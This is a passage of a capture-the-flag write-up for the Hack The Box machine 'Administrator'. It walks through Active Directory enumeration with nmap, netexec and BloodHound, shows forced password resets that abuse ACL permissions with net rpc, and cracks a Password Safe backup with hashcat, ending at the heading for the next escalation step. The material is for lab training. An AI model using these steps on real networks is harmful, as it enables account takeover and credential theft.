






## Summary

This write-up will start with some lore because I am speculating about a neat little `easteregg` in this box. As on `Certified` this box starts with provided `credentials` for a `user` called `Olivia`. Her `password` is `ichliebedich` which is `German` for `I love you`. Since the `foothold` shows that `Olivia` has `GenericAll` permissions set on `Michael` which can be seen after `dumping` the configuration of the `Active Directory`, I assume that this is a `hidden in plainsight` and very `nerdy way`  to show love to a `person`. I like it <3 Good job, well done! After `escalating privileges` to `Michael` the next `Access Control Entry (ACE)` and `Access Control List (ACL)` abuse takes place in form of having the permission `ForceChangePassword` from `Michael` onto `Benjamin`. After this step the `share` provided by the `FTP Server` running on port `21/TCP` can be accessed with `Benjamin` and his newly set `password`. Inside a `.psafe3` file is stored which can be `cracked` with `hashcat` and opened with `PasswordSafe` to get the `password` for the user `Emily`. From the context of `Emily` the `user.txt` can be obtained and the next `privilege escalation` to `Ethan` takes place by using `Shadow Credentials` and `Kerberoasting`. As last step after getting access to `Ethan` all what is left is a `DCSync` with his `credentials` to get the `hash` for `Administrator` and to grab the `root.txt` to close the box.

## Table of Contents

- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
        - [RID Brute Forcing](#RID-Brute-Forcing)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Foothold](#Foothold)
    - [CanPSRemote as Olivia](#CanPSRemote-as-Olivia)
- [Enumeration (Olivia)](#Enumeration-Olivia)
- [Privilege Escalation to Michael](#Privilege-Escalation-to-Michael)
    - [GenericAll Permission Abuse](#GenericAll-Permission-Abuse)
- [Privilege Escalation to Benjamin](#Privilege-Escalation-to-Benjamin)
    - [ForceChangePassword Permission Abuse](#ForceChangePassword-Permission-Abuse)
- [Enumeration of Port 21/TCP](#Enumeration-of-Port-21TCP)
- [Cracking Hash (PasswordSafe)](#Cracking-Hash-PasswordSafe)
- [Privilege Escalation to Emily](#Privilege-Escalation-to-Emily)
- [user.txt](#usertxt)
- [Pivoting (Emily)](#Pivoting-Emily)
- [Privilege Escalation to Ethan](#Privilege-Escalation-to-Ethan)
    - [GenericWrite Abuse (Shadow Credentials & Kerberoasting)](#GenericWrite-Abuse-Shadow-Credentials--Kerberoasting)
        - [Shadow Credentials](#Shadow-Credentials)
        - [Time Sync with Domain Controller](#Time-Sync-with-Domain-Controller)
        - [targetedKerberoast](#targetedKerberoast)
    - [Why Kerberoasting and not the PKINIT Protocol](#Why-Kerberoasting-and-not-the-PKINIT-Protocol)
- [Cracking the Hash (Ethan)](#Cracking-the-Hash-Ethan)
- [Pivoting (Ethan)](#Pivoting-Ethan)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [DCSync as Ethan](#DCSync-as-Ethan)
- [root.txt](#roottxt)

## Introduction

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: `Olivia / ichliebedich`.

| Username | Password     |
| -------- | ------------ |
| Olivia   | ichliebedich |

## Reconnaissance

### Port Scanning

For the start we performed a basic `port scan` using `Nmap` and it showed one additional unexpected port which was port `21/TCP`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.141.124
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 20:02 CET
Nmap scan report for 10.129.141.124
Host is up (0.018s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-10 02:02:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2024-11-10T02:02:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.27 seconds
```

First of all we tried to login to the `FTP Server` on port `21/TCP` but the given credentials didn't worked and `anonymous login` was disabled.

### Enumeration of Port 445/TCP

Since we got `credentials` for this box we took a closer look on port `445/TCP` and noticed that we had `read` permissions on `IPC$`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.141.124 -u '' -p '' --shares
SMB         10.129.141.124  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.124  445    DC               [+] administrator.htb\: 
SMB         10.129.141.124  445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.141.124 -u ' ' -p ' ' --shares
SMB         10.129.141.124  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.124  445    DC               [-] administrator.htb\ :  STATUS_LOGON_FAILURE
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.141.124 -u 'olivia' -p 'ichliebedich' --shares
SMB         10.129.141.124  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.124  445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.141.124  445    DC               [*] Enumerated shares
SMB         10.129.141.124  445    DC               Share           Permissions     Remark
SMB         10.129.141.124  445    DC               -----           -----------     ------
SMB         10.129.141.124  445    DC               ADMIN$                          Remote Admin
SMB         10.129.141.124  445    DC               C$                              Default share
SMB         10.129.141.124  445    DC               IPC$            READ            Remote IPC
SMB         10.129.141.124  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.141.124  445    DC               SYSVOL          READ            Logon server share
```

#### RID Brute Forcing

Therefore we performed `RID Brute Forcing` just to have  a convenient list of users if needed.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.141.124 -u 'olivia' -p 'ichliebedich' --rid-brute
SMB         10.129.141.124  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.124  445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.129.141.124  445    DC               498: ADMINISTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.141.124  445    DC               500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB         10.129.141.124  445    DC               501: ADMINISTRATOR\Guest (SidTypeUser)
SMB         10.129.141.124  445    DC               502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB         10.129.141.124  445    DC               512: ADMINISTRATOR\Domain Admins (SidTypeGroup)
SMB         10.129.141.124  445    DC               513: ADMINISTRATOR\Domain Users (SidTypeGroup)
SMB         10.129.141.124  445    DC               514: ADMINISTRATOR\Domain Guests (SidTypeGroup)
SMB         10.129.141.124  445    DC               515: ADMINISTRATOR\Domain Computers (SidTypeGroup)
SMB         10.129.141.124  445    DC               516: ADMINISTRATOR\Domain Controllers (SidTypeGroup)
SMB         10.129.141.124  445    DC               517: ADMINISTRATOR\Cert Publishers (SidTypeAlias)
SMB         10.129.141.124  445    DC               518: ADMINISTRATOR\Schema Admins (SidTypeGroup)
SMB         10.129.141.124  445    DC               519: ADMINISTRATOR\Enterprise Admins (SidTypeGroup)
SMB         10.129.141.124  445    DC               520: ADMINISTRATOR\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.141.124  445    DC               521: ADMINISTRATOR\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.141.124  445    DC               522: ADMINISTRATOR\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.141.124  445    DC               525: ADMINISTRATOR\Protected Users (SidTypeGroup)
SMB         10.129.141.124  445    DC               526: ADMINISTRATOR\Key Admins (SidTypeGroup)
SMB         10.129.141.124  445    DC               527: ADMINISTRATOR\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.141.124  445    DC               553: ADMINISTRATOR\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.141.124  445    DC               571: ADMINISTRATOR\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.141.124  445    DC               572: ADMINISTRATOR\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.141.124  445    DC               1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB         10.129.141.124  445    DC               1101: ADMINISTRATOR\DnsAdmins (SidTypeAlias)
SMB         10.129.141.124  445    DC               1102: ADMINISTRATOR\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.141.124  445    DC               1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB         10.129.141.124  445    DC               1109: ADMINISTRATOR\michael (SidTypeUser)
SMB         10.129.141.124  445    DC               1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB         10.129.141.124  445    DC               1111: ADMINISTRATOR\Share Moderators (SidTypeAlias)
SMB         10.129.141.124  445    DC               1112: ADMINISTRATOR\emily (SidTypeUser)
SMB         10.129.141.124  445    DC               1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB         10.129.141.124  445    DC               3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB         10.129.141.124  445    DC               3602: ADMINISTRATOR\emma (SidTypeUser)
```

### Domain Enumeration

As next step our focus switched to the `enumeration` of the `Domain`. First of all we performed the most basic check using `enum4linux-ng` to get a little bite more details about the `Domain` and the `Domain Controller`.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.141.124
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.141.124
[*] Username ......... ''
[*] Random Username .. 'awbtmgeo'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.141.124    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.141.124    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: administrator.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.141.124    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.141.124    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.141.124    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: ADMINISTRATOR                                                                                                                                                                                                          
DNS domain: administrator.htb                                                                                                                                                                                                               
FQDN: dc.administrator.htb                                                                                                                                                                                                                  
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: ADMINISTRATOR                                                                                                                                                                                                               

 ===========================================
|    RPC Session Check on 10.129.141.124    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.141.124    |
 =====================================================
[+] Domain: ADMINISTRATOR
[+] Domain SID: S-1-5-21-1088858960-373806567-254189436
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.141.124    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 10.129.141.124    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 10.129.141.124    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 10.129.141.124    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 10.129.141.124    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 10.129.141.124    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.29 seconds
```

Then we updated our `/etc/hosts` file with the entries for the `Domain` and the `Domain Controller`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.141.124  administrator.htb
10.129.141.124  dc.administrator.htb
```

### Active Directory Enumeration

After that it was time to finally `dump` the `configuration` of the `Active Directory` using `bloodhound-python`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ bloodhound-python -u 'olivia' -p 'ichliebedich' -d 'administrator.htb' -ns 10.129.141.124 -c all --zip
/usr/lib/python3/dist-packages/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
  xml_sid_rex = re.compile('<UserId>(S-[0-9\-]+)</UserId>')
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
WARNING: DCE/RPC connection failed: [Errno Connection error (10.129.141.124:445)] timed out
INFO: Done in 00M 07S
INFO: Compressing output into 20241109200220_bloodhound.zip
```

## Foothold

### CanPSRemote as Olivia

The first look at the data showed the `foothold` by just using the `CanPsRemote` permission and log in using `Evil-WinRM`.



```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.141.124 -u 'olivia' -p 'ichliebedich'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents>
```

## Enumeration (Olivia)

The user `Olivia` had no special `permissions` and so we headed back to `BloodHound`.

```c
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
administrator\olivia S-1-5-21-1088858960-373806567-254189436-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to Michael

### GenericAll Permission Abuse

Luckily for us `Olivia` had `GenericAll` permissions on the user `Michael` which allowed us to abuse this permission and to `set` a new `password` for `Michael`.



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ net rpc password "michael" "newP@ssword2024" -U "administrator.htb"/"olivia"%"ichliebedich" -S "dc.administrator.htb"
```

| Username | Password        |
| -------- | --------------- |
| michael  | newP@ssword2024 |

## Privilege Escalation to Benjamin

### ForceChangePassword Permission Abuse

With the `privilege escalation` to `Michael` we checked his permissions and found `ForceChangePassword` was set onto the user `Benjamin`.



We abused that in the same way and `set` a new `password` for `Benjamin`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ net rpc password "benjamin" "newP@ssword2024" -U "administrator.htb"/"michael"%"newP@ssword2024" -S "dc.administrator.htb"
```

| Username | Password        |
| -------- | --------------- |
| benjamin | newP@ssword2024 |

## Enumeration of Port 21/TCP

Now we finally could login on port `21/TCP` using the `credentials` of `benjamin` with his new `password`.

```c
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.141.124
Connected to 10.129.141.124.
220 Microsoft FTP Service
Name (10.129.141.124:kali): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp>
```

On the `share` we found a `Backup.psafe3` file which was basically a `backup` from a `PasswordSafe` database.

```c
ftp> dir
229 Entering Extended Passive Mode (|||56536|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
```

We downloaded the file to crack it.

```c
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||56538|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|   952       47.26 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (46.33 KiB/s)
```

## Cracking Hash (PasswordSafe)

Thankfully `hashcat` can deal with `.psafe3` files directly and after a few seconds we got the clear text `password` for the `database`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

ATTENTION! Potfile storage is disabled for this hash mode.
Passwords cracked during this session will NOT be stored to the potfile.
Consider using -o to save cracked passwords.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Backup.psafe3:tekieromucho                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Sat Nov  9 22:23:47 2024 (0 secs)
Time.Estimated...: Sat Nov  9 22:23:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    32312 H/s (6.75ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> iheartyou
Hardware.Mon.#1..: Util: 25%

Started: Sat Nov  9 22:23:28 2024
Stopped: Sat Nov  9 22:23:48 2024
```

| Password     |
| ------------ |
| tekieromucho |

## Privilege Escalation to Emily

